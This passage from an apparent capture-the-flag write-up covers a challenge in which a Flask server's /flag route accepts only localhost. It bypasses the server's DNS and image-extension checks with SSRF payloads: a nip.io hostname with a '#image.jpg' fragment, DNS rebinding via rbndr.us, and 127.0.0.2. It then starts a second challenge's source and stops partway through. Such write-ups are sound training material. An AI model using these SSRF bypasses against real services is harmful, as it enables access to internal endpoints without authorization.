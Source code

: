 ```python


@app.route("/source")
def get_source():
    return send_file(__file__)


@app.route("/flag")
def get_flag():
    remote_ip = request.environ.get('HTTP_X_REAL_IP')

    if remote_ip and remote_ip != "127.0.0.1":
        abort(401)

    return make_response(FLAG)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=23612)
``` 

```HTTP
GET /flag HTTP/1.1
Host: photo-archiver.ecsc25.hack.cert.pl
HTTP_X_REAL_IP: 127.0.0.1
Cookie: session=ryzdeadzqlukanld
```

**Server protection mechanisms:**
- Resolves the domain using 8.8.8.8.
- blocks if resolved IP is 127.0.0.1.
- rejects if file extension is not an image.
- disables redirects (allow_redirects=False).

/flag is only accessible to requests from 127.0.0.1.

So we have to bypass the DNS check as well as the extension check to request /flag from 127.0.0.1.
To bypass the extension check use #: example.com/flag#.png

Winning link: http://0.0.0.0.nip.io:23612/flag#image.jpg

Additionally you could use DNS rebinding, such as: http://7f000001.c0a80001.rbndr.us:23612/flag#.png, or even http://127.0.0.2/flag#.png.

## 9. Caller

**Source:**

```python
import os
import uuid


def main():
    FLAG = open("flag.txt", 'r').read().encode()
    arg = input("> ")
    blacklist = ['{', '}', ';', '\n']
    if len(arg) > 10 or any([c in arg for c in blacklist]):
        print("Bad input!")
        return
    template = f"""
#include <stdio.h>
#include <string.h>

char* f(){{
    char* flag = "{FLAG}";
```